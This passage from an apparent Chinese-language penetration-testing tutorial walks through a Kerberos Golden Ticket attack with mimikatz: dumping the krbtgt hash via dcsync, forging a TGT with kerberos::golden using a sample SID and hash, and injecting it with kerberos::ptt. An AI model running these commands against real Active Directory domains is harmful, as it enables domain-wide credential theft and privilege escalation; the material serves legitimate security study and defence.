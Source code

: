 
![image-20210812181114739](../域协议/Kerberos协议.assets/image-20210812181114739.png)



#### 构造票据

##### **抓取KRBTGT账户信息(在域控上进行操作)**

使用mimakatz进行操作，抓取工作域下krbtgt用户的账户信息

```
sadump::dcsync /domain:test.com /user:krbtgt
```



![image-20210812194805705](../域协议/Kerberos协议.assets/image-20210812194805705.png)



##### **伪造TGT请求任意TGS**

得到 KRBTGT HASH 之后使用 mimikatz 中的 kerberos::golden 功能生成金票 golden.kiribi，即为伪造成功的TGT。
参数说明：

```
/admin:伪造的用户名
/domain:域名称
/sid:SID 值，域的SID
/krbtgt:krbtgt 的 NTLM-HASH 值
/ticket:生成的票据名称
```

```
kerberos::golden /admin:administrator /domain:test.com /sid:S-1-5-21-593020204-2933201490-533286667 /krbtgt:8894a0f0182bff68e84bd7ba767ac8ed /ticket:golden.kiribi
```



![image-20210812195248273](../域协议/Kerberos协议.assets/image-20210812195248273.png)





##### 获取权限

```
清空本地票据缓存，导入伪造的票据
查看本地保存的票据，观察Client name：kerberos::list
清理本地票据缓存：kerberos::purge
导入伪造的黄金票据：kerberos::ptt golden.kiribi
查看本地保存的票据，观察Client name：kerberos::list
```

票据20分钟内有效，过期之后可以再次导入

![image-20210812195506638](../域协议/Kerberos协议.assets/image-20210812195506638.png)

